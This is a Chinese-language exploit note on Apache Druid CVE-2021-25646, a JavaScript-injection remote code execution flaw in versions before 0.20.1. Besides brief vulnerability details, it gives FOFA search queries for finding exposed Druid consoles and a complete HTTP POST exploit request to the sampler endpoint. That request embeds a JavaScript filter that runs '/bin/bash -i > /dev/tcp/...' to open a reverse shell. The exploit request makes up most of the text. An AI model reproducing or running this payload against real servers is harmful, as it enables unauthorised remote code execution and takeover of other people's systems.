

# Apache Druid 远程代码执行漏洞（CVE-2021-25646）

由于Apache Druid能够执行嵌入在各种类型的请求中的用户提供的JavaScript代码，经过身份认证的攻击者可以构造恶意请求，使用当前Druid权限在目标系统上执行任意代码。

昨天看错了..以为是阿里的Druid...

受影响版本

Apache Druid < 0.20.1

* docker环境：https://github.com/apache/druid/tree/master/distribution/docker
* 安装教程可以见：https://druid.apache.org/docs/latest/tutorials/index.html

FOFA:

```
title="Apache"&&title="Druid"
body="Apache Druid console"
```

分析可以见：https://mp.weixin.qq.com/s/McAoLfyf_tgFIfGTAoRCiw

EXP：

```bash
POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: 127.0.0.1:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 10259
Origin: http://127.0.0.1:8888
Connection: close
Referer: http://127.0.0.1:8888/unified-console.html
Cookie: SESS12ca17b49af2289436f303e0166030a2=IbnbPIOtDzvyq8wYXho7mUGfyoawhdgPvMVszZDBfCI

{"type":"index","spec":{"ioConfig":{"type":"index","inputSource":{"type":"inline","data":"{\"time\":\"2015-09-12T00:46:58.771Z\",\"channel\":\"#en.wikipedia\",\"cityName\":null,\"comment\":\"added project\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":false,\"isNew\":false,\"isRobot\":false,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Talk\",\"page\":\"Talk:Oswald Tilghman\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"GELongstreet\",\"delta\":36,\"added\":36,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:00.496Z\",\"channel\":\"#ca.wikipedia\",\"cityName\":null,\"comment\":\"Robot inserta {{Commonscat}} que enllaça amb [[commons:category:Rallicula]]\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":true,\"isNew\":false,\"isRobot\":true,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"Rallicula\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"PereBot\",\"delta\":17,\"added\":17,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:05.474Z\",\"channel\":\"#en.wikipedia\",\"cityName\":\"Auburn\",\"comment\":\"/* Status of peremptory norms under international law */ fixed spelling of 'Wimbledon'\",\"countryIsoCode\":\"AU\",\"countryName\":\"Australia\",\"isAnonymous\":true,\"isMinor\":false,\"isNew\":false,\"isRobot\":false,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"Peremptory norm\",\"regionIsoCode\":\"NSW\",\"regionName\":\"New South Wales\",\"user\":\"60.225.66.142\",\"delta\":0,\"added\":0,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:08.770Z\",\"channel\":\"#vi.wikipedia\",\"cityName\":null,\"comment\":\"fix Lỗi CS1: ngày tháng\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":true,\"isNew\":false,\"isRobot\":true,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"Apamea abruzzorum\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"Cheers!-bot\",\"delta\":18,\"added\":18,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:11.862Z\",\"channel\":\"#vi.wikipedia\",\"cityName\":null,\"comment\":\"clean up using [[Project:AWB|AWB]]\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":false,\"isNew\":false,\"isRobot\":true,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"Atractus flammigerus\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"ThitxongkhoiAWB\",\"delta\":18,\"added\":18,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:13.987Z\",\"channel\":\"#vi.wikipedia\",\"cityName\":null,\"comment\":\"clean up using [[Project:AWB|AWB]]\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":false,\"isNew\":false,\"isRobot\":true,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"Agama mossambica\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"ThitxongkhoiAWB\",\"delta\":18,\"added\":18,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:17.009Z\",\"channel\":\"#ca.wikipedia\",\"cityName\":null,\"comment\":\"/* Imperi Austrohongarès */\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":false,\"isNew\":false,\"isRobot\":false,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"Campanya dels Balcans (1914-1918)\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"Jaumellecha\",\"delta\":-20,\"added\":0,\"deleted\":20}\n{\"time\":\"2015-09-12T00:47:19.591Z\",\"channel\":\"#en.wikipedia\",\"cityName\":null,\"comment\":\"adding comment on notability and possible COI\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":false,\"isNew\":true,\"isRobot\":false,\"isUnpatrolled\":true,\"metroCode\":null,\"namespace\":\"Talk\",\"page\":\"Talk:Dani Ploeger\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"New Media Theorist\",\"delta\":345,\"added\":345,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:21.578Z\",\"channel\":\"#en.wikipedia\",\"cityName\":null,\"comment\":\"Copying assessment table to wiki\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":false,\"isNew\":false,\"isRobot\":true,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"User\",\"page\":\"User:WP 1.0 bot/Tables/Project/Pubs\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"WP 1.0 bot\",\"delta\":121,\"added\":121,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:25.821Z\",\"channel\":\"#vi.wikipedia\",\"cityName\":null,\"comment\":\"clean up using [[Project:AWB|AWB]]\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":false,\"isNew\":false,\"isRobot\":true,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"Agama persimilis\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"ThitxongkhoiAWB\",\"delta\":18,\"added\":18,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:29.913Z\",\"channel\":\"#en.wikipedia\",\"cityName\":null,\"comment\":\"Blank stale warning(s) and replace with {{[[template:OW|OW]]}} using [[Project:AWB|AWB]]\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":true,\"isNew\":false,\"isRobot\":false,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"User talk\",\"page\":\"User talk:161.184.95.17\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"DavidLeighEllis\",\"delta\":0,\"added\":0,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:33.004Z\",\"channel\":\"#vi.wikipedia\",\"cityName\":null,\"comment\":\"clean up using [[Project:AWB|AWB]]\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":false,\"isNew\":false,\"isRobot\":true,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"Atractus edioi\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"ThitxongkhoiAWB\",\"delta\":18,\"added\":18,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:35.776Z\",\"channel\":\"#vi.wikipedia\",\"cityName\":null,\"comment\":\"Lỗi CS1: ngày tháng\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":true,\"isNew\":false,\"isRobot\":true,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"Agave gentryi\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"TuHan-Bot\",\"delta\":36,\"added\":36,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:37.881Z\",\"channel\":\"#vi.wikipedia\",\"cityName\":null,\"comment\":\"clean up using [[Project:AWB|AWB]]\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":false,\"isNew\":false,\"isRobot\":true,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"Agama sankaranica\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"ThitxongkhoiAWB\",\"delta\":18,\"added\":18,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:42.090Z\",\"channel\":\"#vi.wikipedia\",\"cityName\":null,\"comment\":\"fix Lỗi CS1: ngày tháng\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":true,\"isNew\":false,\"isRobot\":true,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"Apamea albertae\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"Cheers!-bot\",\"delta\":18,\"added\":18,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:44.963Z\",\"channel\":\"#ru.wikipedia\",\"cityName\":null,\"comment\":\"/* Донецкая Народная Республика */\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":false,\"isNew\":false,\"isRobot\":false,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"Караман, Александр Акимович\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"Камарад Че\",\"delta\":0,\"added\":0,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:47.870Z\",\"channel\":\"#vi.wikipedia\",\"cityName\":null,\"comment\":\"clean up using [[Project:AWB|AWB]]\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":false,\"isNew\":false,\"isRobot\":true,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"Atractus duboisi\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"ThitxongkhoiAWB\",\"delta\":18,\"added\":18,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:50.819Z\",\"channel\":\"#en.wikipedia\",\"cityName\":null,\"comment\":\"/* Films */\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":false,\"isNew\":false,\"isRobot\":false,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"Keiynan Lonsdale\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"Lg16spears\",\"delta\":-11,\"added\":0,\"deleted\":11}\n{\"time\":\"2015-09-12T00:47:53.259Z\",\"channel\":\"#ja.wikipedia\",\"cityName\":null,\"comment\":\"/* 対戦通算成績と得失点 */\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":true,\"isNew\":false,\"isRobot\":false,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"Main\",\"page\":\"アルビレックス新潟の年度別成績一覧\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"BlueMoon2662\",\"delta\":14,\"added\":14,\"deleted\":0}\n{\"time\":\"2015-09-12T00:47:56.126Z\",\"channel\":\"#en.wikipedia\",\"cityName\":null,\"comment\":\"Bot updating unblock request table ([[en:WP:PEACHY|Peachy 2.0 (alpha 8)]])\",\"countryIsoCode\":null,\"countryName\":null,\"isAnonymous\":false,\"isMinor\":false,\"isNew\":false,\"isRobot\":true,\"isUnpatrolled\":false,\"metroCode\":null,\"namespace\":\"User\",\"page\":\"User:Cyberbot I/Requests for unblock report\",\"regionIsoCode\":null,\"regionName\":null,\"user\":\"Cyberbot I\",\"delta\":-74,\"added\":0,\"deleted\":74}"},"inputFormat":{"type":"json","keepNullColumns":true}},"dataSchema":{"dataSource":"sample","timestampSpec":{"column":"!!!_no_such_column_!!!","missingValue":"1970-01-01T00:00:00Z"},"dimensionsSpec":{},"transformSpec":{"transforms":[],"filter":{"type": "javascript",
					"function": "function(value){return java.lang.Runtime.getRuntime().exec('/bin/bash -i > /dev/tcp/127.0.0.1/8080 0<& 2>&1')}",
					"dimension": "added",
					"": {
						"enabled": "true"
					}
				}
			}
		},"type":"index","tuningConfig":{"type":"index"}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```




**ref:**

* https://github.com/apache/druid/issues/2434
* https://forum.ywhack.com/thread-115083-1-1.html
* https://druid.apache.org/docs/latest/operations/api-reference.html#broker
* https://lists.apache.org/thread.html/r20e0c3b10ae2c05a3aad40f1476713c45bdefc32c920b9986b941d8f@%3Cannounce.apache.org%3E
* https://www.o2oxy.cn/3090.html